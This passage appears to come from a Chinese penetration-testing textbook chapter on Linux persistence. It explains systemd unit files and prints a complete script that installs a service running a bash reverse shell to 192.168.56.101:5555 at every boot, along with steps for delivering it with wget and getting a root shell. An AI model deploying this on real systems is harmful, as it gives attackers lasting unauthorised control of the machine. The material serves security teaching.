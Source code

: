 该文件定义了以下内容：

+   服务的描述

+   它应在何时启动（网络启动后）

+   启动服务时要执行的命令

+   如果服务失败，重新启动的行为

+   服务应运行的用户

+   服务应安装在系统启动序列中的位置

修改系统服务文件可以提供在重启后仍然有效的持久性。这一点在以下命令中得到了展示，命令可以在本章的 GitHub 仓库中找到，文件名为 **ch12_persistence.service.sh**。请注意，ExecStart Bash 反向 shell 命令为一行，可能因排版问题换行：

```
 #!/usr/bin/env bash
sudo tee -a /etc/systemd/system/persistence.service << EOF
[Unit]
Description=Persistence Service
[Service]
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/192.168.56.101/5555 0>&1'
Restart=always
[Install]
WantedBy=multi-user.target
EOF
sudo systemctl enable persistence.service
sudo systemctl start persistence.service
```

这会创建一个新的 systemd 服务，在系统启动时建立反向 shell 连接。

这是该代码的解释：

+   **tee -a** 创建服务文件。

+   **<<** 重定向将 EOF 标签之间的所有内容发送到服务文件。

+   **[Unit]**、**[Service]** 和 **[Install]** 部分定义了服务。

+   **ExecStart** 指定了要执行的命令。

+   **systemctl enable** 设置服务在启动时自动启动。

+   **systemctl start** 会立即运行该服务。

让我们看看这个实际操作。首先，我将在我的 Kali 系统上运行 **python3 -m http.server** 命令，启动一个 HTTP 服务器用于文件传输。接着，我将在目标系统上使用 **wget** 从 Kali 下载文件，并将文件保存到 **/tmp**。然后，我会将文件设置为可执行并执行它。在 Kali 上，我会查看我的终端并发现我已经获得了反向 Shell 并作为 root 用户建立了会话。以下图示展示了这一过程。

在下图中，您可以看到 Python 服务器已在 Kali 系统上启动：

![图 12.8 – 我们运行 HTTP 服务器用于文件传输](img/B22229_12_08.jpg)

图 12.8 – 我们运行 HTTP 服务器用于文件传输
